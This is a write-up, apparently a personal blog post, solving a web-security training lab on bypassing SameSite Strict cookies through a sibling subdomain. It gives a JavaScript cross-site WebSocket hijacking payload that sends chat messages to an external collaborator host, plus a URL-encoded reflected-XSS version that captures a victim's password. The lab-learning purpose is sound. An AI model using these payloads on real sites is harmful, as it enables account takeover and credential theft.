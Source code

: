 ```yaml
---
layout: post
title:  "SameSite Strict bypass via sibling domain"
date:   2024-10-13 12:20:54 +0530
---
```


## Objective 

This lab's live chat feature is vulnerable to cross-site WebSocket hijacking (CSWSH). To solve the lab, log in to the victim's account.

To do this, use the provided exploit server to perform a CSWSH attack that exfiltrates the victim's chat history to the default Burp Collaborator server. The chat history contains the login credentials in plain text.

## Solution

As mentioned in the lab objective, this is the chat function that is vulnerable to cross site websocket hijacking attack 

![]({{ site.baseurl }}/assets/images/csrf-36.png)

How we can exploit, this is simple POC that I built it 

```html
<script>
    var ws = new WebSocket('wss://0a68001a041224f68871cf4f00b40051.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://ixjsw8wfyq7abbvtx9s7sbls1j7av0jp.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

This is how it works, basically we are calling the chat and sending a `READY` message to the server meaning to establish the connection and if any connection establishes.. then messages passes between parties will be sent to external collab server which kinda performs a OOB interaction 

Then, Once after delivering the payload to victim we may see a collaborator pingback from the websocket server 

![]({{ site.baseurl }}/assets/images/csrf-37.png)

Now, url encoded the above code where we built it to trigger the OOB interaction into the following POC 

```html
<script>
    document.location = "https://cms-0a51004b0435faa1812061a800a300c2.web-security-academy.net/login?username=%3c%73%63%72%69%70%74%3e%0a%20%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%35%31%30%30%34%62%30%34%33%35%66%61%61%31%38%31%32%30%36%31%61%38%30%30%61%33%30%30%63%32%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0a%20%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%20%7d%3b%0a%20%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3a%2f%2f%35%72%78%74%30%63%7a%76%35%70%34%77%66%30%36%66%77%34%76%35%35%66%6b%35%67%77%6d%6e%61%64%79%32%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%27%2c%20%7b%6d%65%74%68%6f%64%3a%20%27%50%4f%53%54%27%2c%20%6d%6f%64%65%3a%20%27%6e%6f%2d%63%6f%72%73%27%2c%20%62%6f%64%79%3a%20%65%76%65%6e%74%2e%64%61%74%61%7d%29%3b%0a%20%20%20%20%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e&password=anything";
</script>
```

Here, hwo it works.. we have separate subdomain called `cms` where it has login page which supports both `GET` and `POST` request login and it is vulnerable to XSS via `GET` method 

Pasted the above POC into the exploit server, `Stored it -> Deliver the exploit to victim` and then looking into our colllaborator we got the password of carlos 

![]({{ site.baseurl }}/assets/images/csrf-38.png)

With the password, we can just login as `carlos` and that solves the lab 